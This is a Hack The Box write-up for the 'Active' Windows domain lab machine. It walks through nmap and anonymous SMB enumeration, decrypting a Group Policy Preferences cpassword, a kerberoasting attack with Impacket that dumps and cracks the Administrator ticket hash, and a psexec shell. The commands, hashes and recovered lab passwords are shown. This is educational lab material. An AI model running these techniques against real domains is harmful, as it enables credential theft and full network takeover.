




# Hack The Box: Active machine write-up

Most people say this machine was close to real world pentesting. IMO it was really cool as for the first part it shows a "common" misconfiguration with Group Policy Preferences keys which lead to user, while the second one was based on taking advantage of a kerberos vulnerability that lets anyone get the hash of the domain admin and, after cracking it, impersonate him.

The machine is running on port 10.10.10.100.

### Enumeration I

Firstly, I enumerate open ports to discover the services running in the machine. I ran the following:

```sh
nmap -sV -sC -Pn -oA nmap/initial 10.10.10.100
```

```console
Starting Nmap 7.01 ( https://nmap.org ) at 2018-11-02 20:36 CET
Nmap scan report for active (10.10.10.100)
Host is up (0.030s latency).
Not shown: 983 closed ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Windows 2003 Kerberos (server time: 2018-11-02 19:36:46Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows 98 netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows 98; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2003, cpe:/o:microsoft:windows_98

Host script results:
|_smbv2-enabled: Server supports SMBv2 protocol

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.96 seconds
```

Looks like we have SMB running on port 445, so let's check it! We can run ``smbclient`` to see the shares available to us.

```console
parallels@ubuntu:~/Desktop/Active$ smbclient -N -L //10.10.10.100
Anonymous login successful
Domain=[ACTIVE] OS=[] Server=[]

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share
	Replication     Disk      
	SYSVOL          Disk      Logon server share
	Users           Disk      
Connection to 10.10.10.100 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
NetBIOS over TCP disabled -- no workgroup available
```

### Enumeration II

``Replication`` was one of the two directories that could be accessed anonymously, so I started looking at things and eventually came across an interesting path: ``replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml``.

*Contents of Groups.xml*

```xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

We notice these particular fields: ``cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9gu
KOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"`` and ``userName="active.htb\SVC_TGS"``.

### Getting user

The encrypted password we've just found are there due to Group Policy Preferences (GPP), which are a tool designed to set local accounts with embedded passwords so that there is no need to store the passwords plaintext in scripts. The flaw is that it is vulnerable, as it stores the password publicly to any anonymous user logged in SMB and Microsoft releases the key used to encrypt the password.

We can just install a tool called gpp-decrypt with the following command:

```
git clone https://github.com/BustedSec/gpp-decrypt
```

Then we just need to edit the source code to change the encrypted string and run it with ``ruby gpp-decrypt``. We get that our password is ``GPPstillStandingStrong2k18``. Therefore, now we can authenticate in SMB with the following credentials: ``SVC_TGS:GPPstillStandingStrong2k18``.

*Mounting the directory and accessing SVC_TGS/user.txt*



### Privilege Escalation

I started looking around in the new directories I had access to but couldn't find anything useful. I was really frustrated and didn't know what else to do so I asked for advise and someone told me to have a look at other services that nmap had found, especially ``kerberos``. So down I got to research about ``kerberos`` vulnerabilities and finally came across something interesting.

Apparently, ``kerberos`` is a piece of software that is used to authenticate users that want to run a service. It does so by generating a key, called ticket, and then exchanging it with the client. However, there is a vulnerability called ``kerberoasting`` which is based on requesting the ticket and then decrypting it offline to log in legitimately later to the service. Besides, I found a [tool](https://github.com/SecureAuthCorp/impacket/) called ``Impacket`` written in python that can do this for us and get us the encrypted ticket.

I downloaded it and run the following:

```console
parallels@ubuntu:~/Desktop/Active/impacket$ python GetUserSPNs.py -dc-ip 10.10.10.100 ACTIVE.htb/SVC_TGS -request
Impacket v0.9.18-dev - Copyright 2018 SecureAuth Corporation

Password:
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet      LastLogon           
--------------------  -------------  --------------------------------------------------------  -------------------  -------------------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 21:06:40  2018-11-02 16:56:57


$krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~445*$2f75c354c3b09ccebf087df4d37b98f2$1896509717f4959e51faa4f1f2b6d3bec31f3a9d70e6f1011549cc60a36fb9a698193c6e1b6087cdb8e5c491231192d781a15aad1710bc51c8014d8e0282b6c79109e9b23476ff7eca1fe069a82998d256abff560495fdf38e4de09f952d25e9c4d2f448519fc52ce87da9d35d0539394221a0df126117d04b08beb5f73e3f70089517f6acca53d2133cb7b2e2893830636aab1e0bb35217b355d89ecee106169b56d1d5f0bfc7fb15ba99b6a3acdc51021a9d08bb3d972606e1b1c5977f5fae5aad8ba11ce86671840ece56b8a5572989e767e24091e15e80855c9d91369c9df70cb1ecb6194b46f0b191405a7e571cf5d4e53b41fcab85d5fda3c0ff0866371e12cb33de205a24934dfa12ca41a7768a8faedccba4f0e47a5ce8c239143b0f3c271ac45d17ffcacd95ce5bf49c993ebc9c95f00a5536344c96eddcac99e0f3bd9a20db39d11e60e673dc4ad86e70a12487ce301e747a3cdd932713609c2eb7db79bc7f1fac539d3c26a916f6bec66188b4d6c582e5cee046999c9ea7688afd45a0e24f3a031e8f024718c1f5ac4b2bf3395c743b14f7b0f1dd1c957d8585a3ffec10a3d356e267771a443309f8f52a685dce22a54d1a2b700f16522b1d7b901ecbc9527d2b3162036b8fb78b9de67e94e346f9d747b1b1fe2bf0da2efbf0a7a84f1ab09d80324a9c286dd8a403f24d6f9803b78f5a09b05b917f01842be62a6f84bbecba62edf63b0304274ac255e432ee4881bd3a8d1e129e8cba47433135a17d0e967eb135e4d9711bc5dda2294932b76328aa295f57b006c34f11c454c8fdda93cc3d35b4d0eb48b3716fd150aee35994a4404b4fe1d9a60b783abdcbeea769b8681a450c0e1206850a6180fa6ddcad6fc04e6f70f93dc2e5e9c89a245c86627347a9270d1b7469ff6ba5757a172e827472c2d87bcd5a9480efa24e1d83e5327a94f8be7249a6840590b5a4da9a18eeb60c55704e71648328aa121def51d6e56a09253f6dcb18b5fc7679a7a63b26f520c7d37add04480dc6cd03f845cbfa7006d75262b57faba1fcf649dda4c880784692607c02f02580ddaa4ccad213c4b2e3a4fd6c5d7d91bc8738621cfe2bfee2df136942800115d9c148b1a7494a82beb5652da6ff6193874ff67cca80c5d117c55472c6b22997faf039041a597de81cebd6118b85b349436e81a8d37ea611d2422be9d3106fbcf8337ad6c8d65890aacab40953b4f930425d0ca7bd69df79d93b23198196c096d8
```

Once we have the hash we just need to decrypt it! I used John The Ripper although hashcat is also ok.

*Cracking the key with JtR*



We have our Administrator password! Now let's mount the shares again with admin credentials: ``Administrator:Ticketmaster1968``.

*Getting root hash*



### Getting a root shell

However, I always like to get a nice shell, so even with the hash the box wasn't completed!

To get the shell I used another example from ``Impacket`` repo, this one called ``psexec.py`` (you can find the format of the parameters by doing psexec.py --help).

*Getting root shell*



And with NT authority we're like root, so our job here is done!

---
<center><i>Diego Bernal Adelantado</i></center>
